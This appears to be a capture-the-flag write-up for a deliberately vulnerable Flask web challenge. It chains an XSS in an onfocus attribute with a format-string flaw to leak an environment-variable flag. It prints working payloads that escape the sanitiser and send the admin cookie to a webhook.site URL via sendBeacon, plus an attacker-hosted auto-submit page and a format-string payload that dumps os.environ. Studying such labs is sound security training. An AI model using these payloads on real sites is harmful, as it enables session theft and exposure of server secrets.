





This was a medium whitebox challenge, the files are available for download [here](https://github.com/sajjadium/ctf-archives/tree/64792ed55d90e43deb30cca2aa1f09e106a0eee3/ctfs/PwnMe/2025/Quals/web/Say_my_name)

## Initial Look

The flag is stored in the environment variables of the application:

```yaml
services:
  saymyname:
    build: .
    image: saymyname:latest
    ports:
      - "5000:5000"
    environment:
      - FLAG=PWNME{FAKE_FLAG}
```

The program was simple, only having a few endpoints:

`app.py`:

```python
from flask import Flask, render_template, request, Response, redirect, url_for
from bot import visit_report
from secrets import token_hex

X_Admin_Token = token_hex(16)

def run_cmd(): # I will do that later
    pass

def sanitize_input(input_string):
    input_string = input_string.replace('<', '')
    input_string = input_string.replace('>', '')
    input_string = input_string.replace('\'', '')
    input_string = input_string.replace('&', '')
    input_string = input_string.replace('"', '\\"')
    input_string = input_string.replace(':', '')
    return input_string

app = Flask(__name__)

@app.route('/admin', methods=['GET'])
def admin():
    if request.cookies.get('X-Admin-Token') != X_Admin_Token:
        return 'Access denied', 403

    prompt = request.args.get('prompt')
    return render_template('admin.html', cmd=f"{prompt if prompt else 'prompt$/>'}{run_cmd()}".format(run_cmd))

@app.route('/', methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/your-name', methods=['POST'])
def your_name():
    if request.method == 'POST':
        name = request.form.get('name')
        return Response(render_template('your-name.html', name=sanitize_input(name)), content_type='text/html')

@app.route('/report', methods=['GET'])
def report():
    url = request.args.get('url')
    if url and (url.startswith('http://') or url.startswith('https://')):
        print(f'Visit : {url} | X-Admin-Token : {X_Admin_Token}')
        visit_report(url, X_Admin_Token)
    return redirect(url_for('index'))

app.run(debug=False, host='0.0.0.0')
```

The front page of the site was a simple name input field:



Inputting a name we are given the `/your-name` page response with our name on the page, cool!



Some initial observations:

- The webapp is running with Flask
- To access `/admin` we require a randomly generated `X_Admin_Token`
- `/your-name` takes a user input on POST and renders it after sanitising it

## XSS

Looking at the sanitise first, it seems to not have a proper sanitisation of inputs.

```python
def sanitize_input(input_string):
    input_string = input_string.replace('<', '')
    input_string = input_string.replace('>', '')
    input_string = input_string.replace('\'', '')
    input_string = input_string.replace('&', '')
    input_string = input_string.replace('"', '\\"')
    input_string = input_string.replace(':', '')
    return input_string
```

It replaces `<`, `>`, `'`, `&` and `:` with nothing, but it replaces `"` with `\\"`.

Looking at the sanitisation of `your-name.html`, we can see the injection points and determine if we can exploit it.

```html
<div class="image-container">
  
  <a
    class="text"
    id="behindthename-redirect"
    href="https://www.behindthename.com/names/search.php?terms={{name}}"
    onfocus='document.location="https://www.behindthename.com/names/search.php?terms={{name|safe}}"'
    >Hello {{name}} !</a
  >
</div>
```

So the injection points are of varying interest:

- The injection point inside the `<a>` isn't interesting as we can't create new tags without `<` and `>`.
- We can't escape the `href` with the `\"` method
- The injection point inside the `onfocus` is passed with `safe`, which does not filter the input at all (as it is marked `safe`), allowing for XSS!

`onfocus` as well as other `on` attributes can execute JavaScript. This particular one is using `document.location` to redirect the user, we can escape the string its redirecting to and add our own JavaScript!

Let's make a sample payload first for the `onfocus` attribute:
`\";console.log(1);//`

The reason this works is as `"` is replaced with `\"` when sanitised. If our input includes a backslash before we send our `"` we can escape the filtering backslash by doubling them up. This allows us to escape the `document.location` in `onfocus`.

E.g. `"` becomes:
```js
document.location="...?terms=\""
```

`\"` becomes:
```js
document.location="...?terms=\\""
```

This allows us to escape the string with our payload:
```js
document.location="...?terms=\\";console.log(1);//"
```

This should print `1` to the console before redirecting. Clicking the URL that's what we see!



## XSS: Exfiltration

Let's use [`navigator`](https://developer.mozilla.org/en-US/docs/Web/API/Navigator) with a [`sendBeacon`](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/sendBeacon) to send a request to our webhook.site URL (which will be used to steal the `X_Admin_Token`) before it redirects!.

```
\";navigator.sendBeacon(`https${String.fromCharCode(58)}//webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1`);//
```

We use `${String.fromCharCode(58)}` as a representation for `:` as it is filtered in the sanitiser from earlier.

Sure enough we get a `POST` request from the webapp on webhook.site.



Now, we need to host a remote server to do this POST to exfiltrate the token.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    return '''
    <!DOCTYPE html>
    <html>
    <head>
        <title>XSS Test</title>
    </head>
    <body>
        <h2>XSS Exploit</h2>

        <form id="post-form" method="POST" action="http://127.0.0.1:5000/your-name#behindthename-redirect">
            <input type="hidden" name="name" value='solopieandsealldev\\";navigator.sendBeacon(`https${String.fromCharCode(58)}//webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1/?c=${document.cookie}`);//'>
            <input type="submit" value="Submit">
        </form>

        <script>
            document.getElementById('post-form').submit();
        </script>
    </body>
    </html>
    '''

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

Let's host this code on `attacker.com`.

We can then send out attacker URL to the `/report` endpoint, have the bot visit our site, get the token back on webhook.site!

```bash
$ curl "http://localhost:5000/report?url=https://attacker.com"
```

We then get a response from the server, `https://webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1/?c=X-Admin-Token=68fd3889bf98101b1639d81d8428955d`

## Python Format Strings

Woo! Now we can do that on remote and access `/admin`!

Looking closer at the `app.py` there is a vulnerability in `/admin`:

```python
@app.route('/admin', methods=['GET'])
def admin():
    if request.cookies.get('X-Admin-Token') != X_Admin_Token:
        return 'Access denied', 403

    prompt = request.args.get('prompt')
    return render_template('admin.html', cmd=f"{prompt if prompt else 'prompt$/>'}{run_cmd()}".format(run_cmd))
```

The `return render_template(...)` line has a Python format string vulnerability, as the string is a format string (indicated by the `f` at the start) and is then run with a `.format()`, meaning we can inject our own variables and potentially exfiltrate sensitive information.

I start with some simple payloads to test it: `{0.__globals__}`

We can send this on the `prompt` attribute on localhost to test: `http://localhost/admin?prompt={0.__globals__}`

This returns the globals of the current execution:

```
 {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7ff98d7d2220>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/app/app.py', '__cached__': None, 'Flask': <class 'flask.app.Flask'>, 'render_template': <function render_template at 0x7ff98c419040>, 'request': <Request 'http://localhost:5000/admin?prompt={0.__globals__}' [GET]>, 'Response': <class 'flask.wrappers.Response'>, 'redirect': <function redirect at 0x7ff98c5ac0d0>, 'url_for': <function url_for at 0x7ff98c618e50>, 'visit_report': <function visit_report at 0x7ff98c3dd670>, 'token_hex': <function token_hex at 0x7ff98c9ec940>, 'X_Admin_Token': '68fd3889bf98101b1639d81d8428955d', 'run_cmd': <function run_cmd at 0x7ff98d81d040>, 'sanitize_input': <function sanitize_input at 0x7ff98c0a9940>, 'app': <Flask 'app'>, 'admin': <function admin at 0x7ff98c1629d0>, 'index': <function index at 0x7ff98c162a60>, 'your_name': <function your_name at 0x7ff98c162c10>, 'report': <function report at 0x7ff98c162ca0>}None
```

We need to find a way to read the environment, generally this is stored in `os`. I start by looking in `Flask`:
`{0.__globals__[Flask].__dict__}`

This returns some information about the Flask app:

```
 {'__module__': 'flask.app', '__annotations__': {'request_class': 'type[Request]', 'response_class': 'type[Response]', 'session_interface': 'SessionInterface'}, '__doc__': "The flask object implements a WSGI application and acts as the central\n object. It is passed the name of the module or package of the\n application. Once it is created it will act as a central registry for\n the view functions, the URL rules, template configuration and much more.\n\n The name of the package is used to resolve resources from inside the\n package or the folder the module is contained in depending on if the\n package parameter ...: <function Flask.test_request_context at 0x7ff98c3dd4c0>, 'wsgi_app': <function Flask.wsgi_app at 0x7ff98c3dd550>, '__call__': <function Flask.__call__ at 0x7ff98c3dd5e0>}None
```

Inside this is `__init__`, we can use that to get to an initialised Flask:
`{0.__globals__[Flask].__init__.__globals__}`

```
 {'__name__': 'flask.app', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7ff98d71e400>, '__spec__': ModuleSpec(name='flask.app', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7ff98d71e400>, origin='/usr/local/lib/python3.9/site-packages/flask/app.py'), '__file__': '/usr/local/lib/python3.9/site-packages/flask/app.py', '__cached__': '/usr/local/lib/python3.9/site-packages/flask/__pycache__/app.cpython-39.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>, origin='built-in'), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2021 Python Software Foundation. All Rights Reserved. Copyright (c) 2000 BeOpen.com. All Rights Reserved. Copyright (c) 1995-2001 Corporation for National Research Initiatives. All Rights Reserved. Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam. All Rights Reserved., 'credits': Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands for supporting Python development. See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'annotations': _Feature((3, 7, 0, 'beta', 1), (3, 10, 0, 'alpha', 0), 16777216), 'cabc': <module 'collections.abc' from '/usr/local/lib/python3.9/collections/abc.py'>, 'os': <module 'os' from '/usr/local/lib/python3.9/os.py'>, 'sys': <module 'sys' (built-in)>, 't': <module 'typing' from '/usr/local/lib/python3.9/typing.py'>, 'weakref': <module 'weakref' from '/usr/local/lib/python3.9/weakref.py'>, 'timedelta': <class 'datetime.timedelta'>, 'iscoroutinefunction': <function iscoroutinefunction at 0x7ff98caf3550>, 'chain': <class 'itertools.chain'>, 'TracebackType': <class 'traceback'>, '_url_quote': <function quote at 0x7ff98d47ec10>, 'click': <module 'click' from '/usr/local/lib/python3.9/site-packages/click/__init__.py'>, 'Headers': <class 'werkzeug.datastructures.headers.Headers'>, 'ImmutableDict': <class 'werkzeug.datastructures.structures.ImmutableDict'>, 'BadRequestKeyError': <class 'werkzeug.exceptions.BadRequestKeyError'>, 'HTTPException': <class 'werkzeug.exceptions.HTTPException'>, 'InternalServerError': <class 'werkzeug.exceptions.InternalServerError'>, 'BuildError': <class 'werkzeug.routing.exceptions.BuildError'>, 'MapAdapter': <class 'werkzeug.routing.map.MapAdapter'>, 'RequestRedirect': <class 'werkzeug.routing.exceptions.RequestRedirect'>, 'RoutingException': <class 'werkzeug.routing.exceptions.RoutingException'>, 'Rule': <class 'werkzeug.routing.rules.Rule'>, 'is_running_from_reloader': <function is_running_from_reloader at 0x7ff98d5491f0>, 'BaseResponse': <class 'werkzeug.wrappers.response.Response'>, 'get_host': <function get_host at 0x7ff98c9de3a0>, 'cli': <module 'flask.cli' from '/usr/local/lib/python3.9/site-packages/flask/cli.py'>, 'ft': <module 'flask.typing' from '/usr/local/lib/python3.9/site-packages/flask/typing.py'>, 'AppContext': <class 'flask.ctx.AppContext'>, 'RequestContext': <class 'flask.ctx.RequestContext'>, '_cv_app': <ContextVar name='flask.app_ctx' at 0x7ff98d60b5e0>, '_cv_request': <ContextVar name='flask.request_ctx' at 0x7ff98d60b630>, 'current_app': <Flask 'app'>, 'g': <flask.g of 'app'>, 'request': <Request 'http://localhost:5000/admin?prompt={0.__globals__[Flask].__init__.__globals__}' [GET]>, 'request_ctx': <RequestContext 'http://localhost:5000/admin?prompt={0.__globals__[Flask].__init__.__globals__}' [GET] of app>, 'session': <NullSession {}>, 'get_debug_flag': <function get_debug_flag at 0x7ff98c618940>, 'get_flashed_messages': <function get_flashed_messages at 0x7ff98c5ac310>, 'get_load_dotenv': <function get_load_dotenv at 0x7ff98c6189d0>, 'send_from_directory': <function send_from_directory at 0x7ff98c5ac4c0>, 'App': <class 'flask.sansio.app.App'>, '_sentinel': <object object at 0x7ff98c795560>, 'SecureCookieSessionInterface': <class 'flask.sessions.SecureCookieSessionInterface'>, 'SessionInterface': <class 'flask.sessions.SessionInterface'>, 'appcontext_tearing_down': <blinker.base.NamedSignal object at 0x7ff98c63dee0; 'appcontext-tearing-down'>, 'got_request_exception': <blinker.base.NamedSignal object at 0x7ff98c63db50; 'got-request-exception'>, 'request_finished': <blinker.base.NamedSignal object at 0x7ff98c63dca0; 'request-finished'>, 'request_started': <blinker.base.NamedSignal object at 0x7ff98c63dd90; 'request-started'>, 'request_tearing_down': <blinker.base.NamedSignal object at 0x7ff98c63dd00; 'request-tearing-down'>, 'Environment': <class 'flask.templating.Environment'>, 'Request': <class 'flask.wrappers.Request'>, 'Response': <class 'flask.wrappers.Response'>, 'T_shell_context_processor': ~T_shell_context_processor, 'T_teardown': ~T_teardown, 'T_template_filter': ~T_template_filter, 'T_template_global': ~T_template_global, 'T_template_test': ~T_template_test, '_make_timedelta': <function _make_timedelta at 0x7ff98c7a3040>, 'Flask': <class 'flask.app.Flask'>}None
```

Inside this is the `os` module: `...  'os': <module 'os' from '/usr/local/lib/python3.9/os.py'>, ... `

We can then add `.environ` to get the environment variables:
`{0.__globals__[Flask].__init__.__globals__[os].environ}`

```
 environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': '1d7438abd92d', 'FLAG': 'PWNME{FAKE_FLAG}', 'LANG': 'C.UTF-8', 'GPG_KEY': 'E3FF2839C048B25C084DEBE9B26995E310250568', 'PYTHON_VERSION': '3.9.4', 'PYTHON_PIP_VERSION': '21.1.1', 'PYTHON_GET_PIP_URL': 'https://github.com/pypa/get-pip/raw/1954f15b3f102ace496a34a013ea76b061535bd2/public/get-pip.py', 'PYTHON_GET_PIP_SHA256': 'f499d76e0149a673fb8246d88e116db589afbd291739bd84f2cd9a7bca7b6993', 'DEBIAN_FRONTEND': 'noninteractive', 'HOME': '/root', 'WERKZEUG_SERVER_FD': '3'})None
```

We get the sample flag!

## Putting it all together

Let's do the steps on remote:

1. Trigger the request to the `/report` endpoint that exfiltrates the `X_Admin_Token` to our webserver.

```bash
$ curl "https://saymyname-c588791ba9cff43a.deploy.phreaks.fr/report?url=https://attacker.com"
```

We get the token on our webhook.site: `X-Admin-Token=17c738b0787c99a392debb90bf9b57be`

2. Use that token to get the flag from the Python format string vulnerability

```bash
$ curl -X GET "https://saymyname-c588791ba9cff43a.deploy.phreaks.fr/admin?prompt=%7B0.__globals__%5BFlask%5D.__init__.__globals__%5Bos%5D.environ%7D" --cookie "X-Admin-Token=17c738b0787c99a392debb90bf9b57be"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Admin</title>
</head>
<body>
    environ({&#39;PATH&#39;: &#39;/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#39;, &#39;HOSTNAME&#39;: &#39;ctf-saymyname-c588791ba9cff43a-785bb6f958-qds96&#39;, &#39;LANG&#39;: &#39;C.UTF-8&#39;, &#39;GPG_KEY&#39;: &#39;E3FF2839C048B25C084DEBE9B26995E310250568&#39;, &#39;PYTHON_VERSION&#39;: &#39;3.9.4&#39;, &#39;PYTHON_PIP_VERSION&#39;: &#39;21.1.1&#39;, &#39;PYTHON_GET_PIP_URL&#39;: &#39;https://github.com/pypa/get-pip/raw/1954f15b3f102ace496a34a013ea76b061535bd2/public/get-pip.py&#39;, &#39;PYTHON_GET_PIP_SHA256&#39;: &#39;f499d76e0149a673fb8246d88e116db589afbd291739bd84f2cd9a7bca7b6993&#39;, &#39;DEBIAN_FRONTEND&#39;: &#39;noninteractive&#39;, &#39;FLAG&#39;: &#39;PWNME{b492b312612c741b3b6597f925f88198}&#39;, &#39;KUBERNETES_SERVICE_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_SERVICE_PORT_HTTPS&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT&#39;: &#39;tcp://34.118.224.1:443&#39;, &#39;KUBERNETES_PORT_443_TCP&#39;: &#39;tcp://34.118.224.1:443&#39;, &#39;KUBERNETES_PORT_443_TCP_PROTO&#39;: &#39;tcp&#39;, &#39;KUBERNETES_PORT_443_TCP_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT_443_TCP_ADDR&#39;: &#39;34.118.224.1&#39;, &#39;KUBERNETES_SERVICE_HOST&#39;: &#39;34.118.224.1&#39;, &#39;HOME&#39;: &#39;/root&#39;, &#39;WERKZEUG_SERVER_FD&#39;: &#39;3&#39;})None
</body>
</html>
```

3. Profit

Flag: `PWNME{b492b312612c741b3b6597f925f88198}`

In the Discord user `lambdamancer` made this flow diagram of the attack:
 